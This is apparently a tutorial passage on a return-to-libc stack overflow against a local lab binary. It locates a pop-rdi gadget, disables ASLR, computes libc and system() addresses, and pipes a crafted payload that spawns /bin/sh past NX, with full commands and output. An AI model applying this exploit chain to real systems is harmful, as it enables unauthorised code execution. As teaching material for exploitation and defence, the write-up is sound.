 We are only interested in the instruction that assigns the pointer to the RDI. 
so we try to search codes that we are interested in, we want to execute something similar to the code below
```
pop  %rdi
retq
```
So to get around it we run the following
```
$ xxd -c1 -p /lib/x86_64-linux-gnu/libc.so.6 | grep -n -B1 c3 |grep 5f -m1 | awk '{printf"%x\n",$1-1}'
21102
```
We first grab all the lines from the library file from 1 to the offset which is at 0.  
As all indexes follow 0 -> n-1, we subtract 1.  
We read one hexcode per line and look for 0xC3 (which might be the opcode for ret)  
If found, we print whichever lines matches what we are searching for
Then we look for the "0x5F" (which might be RDI register) and also print out the line. 

## Many happy returns
Now that we have the address location for the opcode of RET and the address for RDI register we now try the following:
#### Overwrite the return address to run the following:
1. address of gadget: libc's address + 0x21102
2. address of "bin/sh": 
3. address of libc's system() function
We first run the following:
```
$ setarch `arch` -R ./victim
```
Then we try to find the address of the gadget by finding the address of libc.  
All this is ran at another terminal meanwhile:
```
$ grep libc /proc/$pid/maps
7ffff7a0d000-7ffff7bcd000 r-xp 00000000 08:01 52900                      /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7bcd000-7ffff7dcd000 ---p 001c0000 08:01 52900                      /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dcd000-7ffff7dd1000 r-xp 001c0000 08:01 52900                      /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dd1000-7ffff7dd3000 rwxp 001c4000 08:01 52900                      /lib/x86_64-linux-gnu/libc-2.23.so
```
We then calculated that the gadget address was:  
$0x7FFFF7A2E102 = 0x7ffff7a0d000 + 0x21102.  
Then we proceed to find the address of "/bin/sh", this was already done so with the value of: 0x7fffffffdff0.  
Then we find address of libcs system function  
```
$ nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep '\<system\>'
0000000000045390 W system
```
Finally we calculate the address of the libc's system function which is
$7FFFF7A52390 = 0x7ffff7a0d000 + 0x45390.  
Then we try to overcome the NX protection by running our own RET
```
$ (echo -n /bin/sh | xxd -p; printf %0130d 0;
printf %016x $((0x7ffff7a0d000+0x21102)) | tac -rs..;
printf %016x 0x7fffffffdff0 | tac -rs..;
printf %016x $((0x7ffff7a0d000+0x45390)) | tac -rs..) |
xxd -r -p | setarch `arch` -R ./victim
0x7fffffffdff0
What's your name?
World
Hello, ▒_H1▒▒;H1▒H1▒▒▒▒▒▒/bin/sh!
```